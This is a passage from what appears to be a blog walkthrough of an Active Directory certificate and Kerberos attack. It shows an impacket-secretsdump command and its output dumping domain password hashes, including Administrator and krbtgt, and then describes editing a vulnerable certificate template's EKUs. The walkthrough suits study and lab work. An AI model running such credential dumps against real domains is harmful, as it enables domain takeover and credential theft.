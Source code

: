 And now we can use secretsdump:
```sh
┌──(kali㉿kali)-[~]
└─$ impacket-secretsdump 'testuser'@172.17.199.253
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0349c78bd4d8eab70da0b0683598b9b2:::
-- SNIPPED --
```

## KDC_ERR_INCONSISTENT_KEY_PURPOSE
Like described in this [article](https://www.gradenegger.eu/en/configuring-a-certificate-template-for-domain-controllers/):

>The following entries should always be removed Client Authentication Smart Card Logon
- Client Authentication
- Smart Card Logon

Let's remove the `client authentication` EKU from the application policy of our vulnerable template.

![](/assets/img/posts/kerberos-fun/2.png)
_Removing EKU's from Application Policies_

